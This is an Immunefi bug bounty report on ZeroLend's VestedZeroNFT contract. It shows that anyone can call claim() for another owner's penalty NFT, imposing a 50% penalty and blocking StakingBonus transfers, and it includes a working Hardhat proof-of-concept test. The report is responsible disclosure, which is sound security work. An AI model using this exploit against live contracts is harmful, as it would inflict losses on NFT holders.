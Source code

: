 
# Griefing attack for VestedZeroNFT

Submitted on Mar 7th 2024 at 19:12:50 UTC by @DuckAstronomer for [Boost | ZeroLend](https://immunefi.com/bounty/zerolend-boost/)

Report ID: #29123

Report type: Smart Contract

Report severity: Medium

Target: https://github.com/zerolend/governance

Impacts:
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)
- Permanent freezing of funds

## Description
## Vulnerability Details
It is possible for anyone to call the `claim()` function of the `VestedZeroNFT` contract on behalf of the NFT owner. This poses an issue especially when an NFT is minted with `penalty=true`. In such cases, the NFT owner ends up paying a penalty (currently 50%) and loses the ability to utilize the `StakingBonus` contract.

This situation sets the stage for a Griefing attack scenario where an attacker can trigger `claim()` for NFTs with `penalty=true`. Consequently, the owners bear penalties and forfeit the opportunity to receive bonuses through the `StakingBonus` mechanism.

## References
- https://github.com/zerolend/governance/blob/main/contracts/vesting/VestedZeroNFT.sol#L159
- https://github.com/zerolend/governance/blob/main/contracts/vesting/VestedZeroNFT.sol#L211
- https://github.com/zerolend/governance/blob/main/contracts/vesting/StakingBonus.sol#L74
- https://github.com/zerolend/governance/blob/main/contracts/locker/BaseLocker.sol#L333



## Proof of Concept
To run the Poc put it's code to the `governance-main/test/Gauge.poc.ts` file, generate a random private key, and issue the following command:

```
WALLET_PRIVATE_KEY=0x... NODE_ENV=test npx hardhat test test/Gauge.poc.ts --config hardhat.config.ts --network hardhat
```

**PoC scenario**:
1. The deployer generates `VestedZeroNFT` with `penalty=true` to the Whale.
2. The Ant (attacker) quickly invokes `claim()` for the Whale's Nft.
3. As a result `50%` penalty is paid and now `unclaimed()` returns `0` for the Nft.
4. The Whale wants to transfer Nft to the `StakingBonus` contract, but their tx reverts since `unclaimed()` returns `0`.



```
import { expect } from "chai";
import { deployGovernance } from "./fixtures/governance";
import { loadFixture } from "@nomicfoundation/hardhat-network-helpers";
import { SignerWithAddress } from "@nomicfoundation/hardhat-ethers/signers";
import {
  LockerToken,
  OmnichainStaking,
  StakingBonus,
  VestedZeroNFT,
  ZeroLend,
} from "../typechain-types";
import { e18 } from "./fixtures/utils";

describe("Immunefi Boost", () => {
  let ant: SignerWithAddress;
  let whale: SignerWithAddress;
  let vest: VestedZeroNFT;
  let now: number;
  let stakingBonus: StakingBonus;
  let zero: ZeroLend;
  let locker: LockerToken;
  let omniStaking: OmnichainStaking;

  beforeEach(async () => {
    const deployment = await loadFixture(deployGovernance);
    ant = deployment.ant;
    zero = deployment.zero;
    vest = deployment.vestedZeroNFT;
    stakingBonus = deployment.stakingBonus;
    locker = deployment.lockerToken;
    omniStaking = deployment.omnichainStaking;
    now = Math.floor(Date.now() / 1000);
    whale = deployment.whale;
  });


  // Run as: WALLET_PRIVATE_KEY=0x... NODE_ENV=test npx hardhat test test/Griefing.poc.ts --config hardhat.config.ts --network hardhat


  describe("Griefing", () => {
    it("Ant attacks Whale", async () => {
      expect(await vest.lastTokenId()).to.equal(0);

      // deployer should be able to mint a nft for Whale
      // with penalty = True
      await vest.mint(
        whale.address,
        e18 * 20n, // 20 ZERO linear vesting
        0, // 0 ZERO upfront
        1000, // linear duration - 1000 seconds
        0, // cliff duration - 0 seconds
        now + 1000, // unlock date
        true, // penalty!!
        0
      );

      expect(await vest.lastTokenId()).to.equal(1);

      // Ant calls claim() for minted Nft with penalty
      // Nft is minted for Whale
      await vest.connect(ant).claim(1);
      
      // Whale transfers Nft to StakingBonus contract
      // But it reverts
      await expect(
        vest
          .connect(whale)
          ["safeTransferFrom(address,address,uint256)"](
            whale.address,
            stakingBonus.target,
            1
        )
      ).to.be.reverted;
    });
  });
});
```
